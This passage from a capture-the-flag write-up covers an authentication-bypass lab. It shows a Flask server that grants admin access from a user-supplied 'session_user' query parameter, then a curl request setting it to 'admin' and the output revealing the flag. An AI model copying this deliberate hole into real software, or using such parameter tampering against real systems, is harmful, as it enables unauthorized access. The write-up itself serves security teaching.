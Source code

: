 ```py title="/challenge/server" showLineNumbers
    return flask.redirect(f"""{flask.request.path}?session_user={username}""")


@app.route("/", methods=["GET"])
def challenge_get():
    if not (username := flask.request.args.get("session_user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return page + """
        <hr>
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
    """

app.secret_key = os.urandom(8)
app.config['SERVER_NAME'] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

This challenge checks if we have provided the correct credentials for the `admin` user.
After successful login, the app redirects with:

```py title="/challenge/server" showLineNumbers
return redirect(f"/?session_user={username}")
```

Then in the GET route, it uses:

```py title="/challenge/server" showLineNumbers
username = request.args.get("session_user")
if username == "admin":
    show_flag()
```

This blindly trusts the user-controlled `session_user` parameter with no validation.
This insecure session handling causes IDOR.

### IDOR

```
hacker@web-security~authentication-bypass-1:/$ curl "challenge.localhost:80/?session_user=admin"
<html><body>Hello, admin!<br>Here is your flag: pwn.college{gDnBe8GKyI_E8AT1QYRMzHDq2Fy.dlDOzMDL4ITM0EzW}

        <hr>
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
```
